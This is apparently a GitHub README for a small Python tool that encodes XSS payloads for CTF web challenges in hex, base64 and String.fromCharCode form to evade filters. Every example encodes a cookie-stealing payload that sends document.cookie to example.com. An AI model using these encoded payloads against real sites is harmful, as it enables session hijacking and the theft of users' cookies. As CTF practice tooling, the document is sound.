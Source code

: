 <div align="center">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600629-9da7b084-4fbc-4212-b10e-d395a178a7f5.svg#gh-light-mode-only">
  <img height="550px" src="https://user-images.githubusercontent.com/28403617/220600634-a43af6ba-fc67-4c47-981b-0c4e9c4aba7b.svg#gh-dark-mode-only">
</div>

## What is this?

It's a simple tool to encode payloads for ctf web challenges.

The main interest of this tool is to encode payloads for XSS vulnerabilities on ctfs challenges. It allows generating payloads with `String.fromCharCode` javascript function, raw hexa values and base64, used to bypass some filters.

## How to use it?

```bash
$ python3 enc-ow-der.py -h
usage: enc-ow-der.py [-h] -i INPUT [-b64] [-fchar] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        input string
  -b64, --base-64       encode as base64
  -fchar, --from-char-code
                        output the result with fromCharCode function
  -v, --verbose         verbose
```

## Examples

#### Hexa encoding

```sh-session
python3 enc-ow-der.py -i "fetch('http://example.com/'+btoa(document.cookie))"
```
```
\x66\x65\x74\x63\x68\x28\x27\x68\x74\x74\x70\x3a\x2f\x2f\x65\x78\x61\x6d\x70\x6c\x65\x2e\x63\x6f\x6d\x2f\x27\x2b\x62\x74\x6f\x61\x28\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x29\x29
```

#### Base64 encoding

```sh-session
python3 enc-ow-der.py -i "fetch('http://example.com/'+btoa(document.cookie))" -b64
```
```
ZmV0Y2goJ2h0dHA6Ly9leGFtcGxlLmNvbS8nK2J0b2EoZG9jdW1lbnQuY29va2llKSk=
```

#### `String.fromCharCode` output
```sh-session
python3 enc-ow-der.py -i "fetch('http://example.com/'+ btoa(document.cookie))" -fchar
```
```
String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,58,47,47,101,120,97,109,112,108,101,46,99,111,109,47,39,43,32,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,41)
```

#### Base64 encoding + `String.fromCharCode` output

```sh-session
python3 enc-ow-der.py -i "fetch('http://example.com/'+ btoa(document.cookie))" -fchar -b64
```
```
String.fromCharCode(90,109,86,48,89,50,103,111,74,50,104,48,100,72,65,54,76,121,57,108,101,71,70,116,99,71,120,108,76,109,78,118,98,83,56,110,75,121,66,105,100,71,57,104,75,71,82,118,89,51,86,116,90,87,53,48,76,109,78,118,98,50,116,112,90,83,107,112)
```
